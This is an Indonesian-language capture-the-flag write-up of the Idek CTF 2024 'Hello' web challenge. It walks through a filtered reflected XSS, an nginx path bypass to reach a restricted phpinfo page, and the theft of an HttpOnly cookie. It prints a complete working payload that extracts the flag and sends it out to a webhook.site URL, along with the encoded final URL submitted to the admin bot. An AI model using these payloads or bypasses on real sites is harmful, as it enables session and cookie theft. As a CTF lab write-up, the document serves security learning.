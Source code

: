 ```yaml
---
layout: post
title: "Idek CTF 2024 - Hello [Web]"
date: 2024-08-18 00:00:00
description: "Idek CTF 2024 - Hello [Web] Writeup"
tag:
  - Web
---
```


Setelah sekian lama tidak update article, kali ini saya akan update mengenai writeup Web Idek CTF 2024 dengan nama challenge "Hello". Saya bikin article ini karena dirasa cukup menarik bagi saya.

**Challenge Description:**\
`Just to warm you up for the next Fight :"D`
`Note: the admin bot is not on the same machine as the challenge itself and the .chal.idek.team:1337 URL should be used for the admin bot URL`

![Chall](http://idek-hello.chal.idek.team:1337/)
![Admin Bot](https://admin-bot.idek.team/idek-hello)
![Attachments](https://idekctf-challenges.storage.googleapis.com/uploads/f64f1dd16fae27e943a8f7dab349e00509f39c63bb2278328ac5783d867fa393/idek-hello.tar.gz)

**Analysis:**\
Karena challenges ini merupakan Whitebox yang diberikan source code, kita harus lakukan source code review terlebih dahulu. Adapun struktur file source code yang diberikan sebagai berikut:

.
├── bot.js
├── docker-compose.yml
├── hello
│   ├── Dockerfile
│   ├── init.sh
│   ├── nginx.conf
│   └── src
│   ├── index.php
│   └── info.php
└── tes.md

3 directories, 8 files

Berdasarkan structure file tersebut, terdapat bot.js yang artinya kemungkinan tipikal challenge Client-Side.
Analisa pertama kita lakukan pada file bot.js:

```javascript
...SNIP...
const visit = async () => {
    let browser;
    try {
        browser = await puppeteer.launch({
            headless: true,
            pipe: true,
            args: [
                "--no-sandbox",
                "--disable-setuid-sandbox",
                "--js-flags=--noexpose_wasm,--jitless",
            ],
            dumpio: true
        });

        const ctx = await browser.createBrowserContext();

        const page = await ctx.newPage();
        await page.goto(CHALLENGE_ORIGIN, { timeout: 3000 });
        await page.setCookie({ name: 'FLAG', value: 'idek{PLACEHOLDER}', httpOnly: true });
        await page.goto(TARGET_URL, { timeout: 3000, waitUntil: 'domcontentloaded' });
        await sleep(5000);

        await browser.close();
        browser = null;
    } catch (err) {
        console.log(err);
    } finally {
        if (browser) await browser.close();
    }
};
...SNIP...
```

Berdasarkan file bot.js tersebut, FLAG berada di cookies bot yang diskenariokan disini sebagai Admin. Dari FLAG yang berada di Cookie tersebut dapat dipastikan ini adalah challenges Cross-site-Scripting (XSS). Tapi perlu di note terlebih dahulu bahwa terdapat attribute cookie berupa "httponly" yang di set menjadi "true". Artinya, terdapat proteksi sehingga kita tidak bisa melakukan stealing cookies menggunakan javascript document.cookie.

Berdasarkan article dari ![HackCommander](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/), kita bisa melakukan bypass HttpOnly dan exfiltrate cookies via PHP Info page.

Analisa kedua kita lakukan pada file index.php:

```php
<?php

function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}

?>
```

Dari file index.php tersebut, terdapat celah Cross-site-Scripting (XSS) pada parameter "name" yang melakukan render user-input. Tetapi, terdapat filter pada function Enhanced_Trim dimana kita tidak bisa menggunakan karakter "\r", "\n". "\t", "/", dan " " untuk construct payload XSS nya.

Analisa ketiga kita lakukan pada file nginx.conf:

```bash
...SNIP...
location = /info.php {
allow 127.0.0.1;
deny all;
}

location ~ \.php$ {
root    /usr/share/nginx/html;
fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
include fastcgi_params;
fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
...SNIP...
```

Dari file configuration nginx tersebut, terdapat celah berupa Unsafe Path Restriction ke endpoint /info.php. Apabila kita tidak melakukan research, mungkin kita berfikir file info.php tersebut bukan menjadi jalan untuk mendapatkan FLAG yang ada di cookies Admin. Tetapi, karena sesuai article dari ![HackCommander](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/) bahwa kita bisa exfiltrate cookies via PHP info page, maka page ini sangat berguna. Diketahui web juga menggunakan PHP-FPM.

**How to Solve?**\
Dari hasil analisa yang telah kita lakukan, dapat kita urutkan langkah penyelesaiannya sebagai berikut:

1. Bypass Cross-site-Scripting (XSS) filter pada endpoint /index.php dengan parameter "name" => http://target/index.php?name=payload
2. Bypass Unsafe Path Restriction untuk bisa akses info.php page => http://target/info.php
3. Exfiltrate Admin Cookies via PHP info page

Karena alurnya sudah kita ketahui, langsung saja kita lakukan exploitasi.

Bypass Filter XSS:

1. Bypass " " (spasi) menggunakan null byte %0, referensi dari ![ctftime](https://ctftime.org/writeup/32720)
2. Bypass "/" (slash) menggunakan String.fromCharCode

Bypass Path Restriction Nginx PHP-FPM:

1. Akses ke /info.php yang seharusnya hanya diperbolehkan dari 127.0.0.1 dapat di bypass dengan Path Manipulation => http://target/info.php/index.php ![sumber](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass)

Dari teknik bypass yang ditemukan, terbentuklah payload XSS untuk stealing cookies dari PHP info page menggunakan regex sebagai berikut:

```javascript
// Ubah menjadi decimal
fetch("http://idek-hello.chal.idek.team:1337/info.php/index.php")
  .then((response) => response.text())
  .then((data) => {
    const regex = /idek\{.*?\}/g;
    const matches = data.match(regex);
    if (matches) {
      fetch(
        "https://webhook.site/e9f955cb-6075-43a9-a58a-521db006edcd" +
          "?encodedMatches=" +
          btoa(matches),
        { method: "GET" }
      );
    }
  });

// Payload final yang di submit ke bot Admin
http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=javascript:eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,58,47,47,105,100,101,107,45,104,101,108,108,111,46,99,104,97,108,46,105,100,101,107,46,116,101,97,109,58,49,51,51,55,47,105,110,102,111,46,112,104,112,47,105,110,100,101,120,46,112,104,112,39,41,46,116,104,101,110,40,114,101,115,112,111,110,115,101,32,61,62,32,114,101,115,112,111,110,115,101,46,116,101,120,116,40,41,41,46,116,104,101,110,40,100,97,116,97,32,61,62,32,123,99,111,110,115,116,32,114,101,103,101,120,32,61,32,47,105,100,101,107,92,123,46,42,63,92,125,47,103,59,99,111,110,115,116,32,109,97,116,99,104,101,115,32,61,32,100,97,116,97,46,109,97,116,99,104,40,114,101,103,101,120,41,59,105,102,32,40,109,97,116,99,104,101,115,41,32,123,102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,101,57,102,57,53,53,99,98,45,54,48,55,53,45,52,51,97,57,45,97,53,56,97,45,53,50,49,100,98,48,48,54,101,100,99,100,39,32,43,32,39,63,101,110,99,111,100,101,100,77,97,116,99,104,101,115,61,39,32,43,32,98,116,111,97,40,109,97,116,99,104,101,115,41,44,32,123,32,109,101,116,104,111,100,58,32,39,71,69,84,39,32,125,41,59,125,125,41,59))>
```

Tinggal kirimkan payload final ke Admin Bot, setelah itu Bot akan trigger payload tersebut untuk exfiltrate FLAG via PHP info page dan flag kita dapatkan di webhook.
![Webhook](/assets/img/Idek-CTF-2024-Hello/flag.png)

**Flag**:idek{Ghazy_N3gm_Elbalad},idek{Ghazy_N3gm_Elbalad}
